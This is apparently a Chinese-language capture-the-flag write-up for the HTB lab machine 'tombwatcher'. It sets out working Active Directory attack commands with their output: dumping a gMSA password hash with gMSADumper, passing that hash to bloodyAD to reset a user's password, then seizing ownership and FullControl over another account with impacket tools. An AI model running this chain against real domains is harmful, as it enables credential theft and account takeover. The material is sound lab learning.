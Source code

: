 > At this point you are ready to use the NT hash the same way you would with a regular user account. You can perform pass-the-hash, overpass-the-hash, or any other technique that takes an NT hash as an input.

gMSA全称是**组托管服务账户（Group Managed Service Account，gMSA）**。这是微软引用的一种特殊类新的账户，与传统服务账户不同，它的密码由AD自动管理，而不是像普通服务密码那样需要手动设置，手动更新。

这个权限顾名思义就是让我们可以读取gMSA密码，利用脚本：https://github.com/micahvandeusen/gMSADumper

```
└─# python3 gMSADumper.py -u Alfred -p basketball -d tombwatcher.htb
Users or groups who can read password for ansible_dev$:
 > Infrastructure
ansible_dev$:::bf8b11e301f7ba3fdc616e5d4fa01c30
ansible_dev$:aes256-cts-hmac-sha1-96:f36c76683b132f15610b96c7570f8749f7bf7d41bb87339536737fa02ba483b9
ansible_dev$:aes128-cts-hmac-sha1-96:8e2884da3f366cd9faa83445a1ebbf36
```

第一个就是NTLM哈希，账户名`ansible_dev$`,哈希值`bf8b11e301f7ba3fdc616e5d4fa01c30`

然后通过ForceChangePassword权限修改sam的密码：

```
└─# bloodyAD -u 'ansible_dev$' -p ':bf8b11e301f7ba3fdc616e5d4fa01c30' --host 10.10.11.72  set password sam 'Orange33315!'
```

sam对john有WriteOwner权限，可以把john的所有者改为自己,可以使用bloodyAD，这里使用bloodhound中提提议的impakcet-ownerdit

```
└─# impacket-owneredit -action write -dc-ip 10.10.11.72 -target-sid 'S-1-5-21-1392491010-1358638721-2126982587-1106' -new-owner-sid 'S-1-5-21-1392491010-1358638721-2126982587-1105'  tombwatcher.htb/sam:Orange33315!
Impacket v0.13.0.dev0+20250912.114226.b742bd4d - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=tombwatcher,DC=htb
[*] OwnerSid modified successfully!
```

然后使用impacket-dacledit为自己添加GenericALL权限：

```
└─# impacket-dacledit -action write -rights FullControl -principal sam -target john tombwatcher.htb/sam:Orange33315!
```

然后就可以修改密码了：

```
└─# bloodyAD -u sam -p 'Orange33315!' --host 10.10.11.72 set password john Orange333
15!
#impacket-changepassword  也可以，bloodyAD和impacket随便用
```
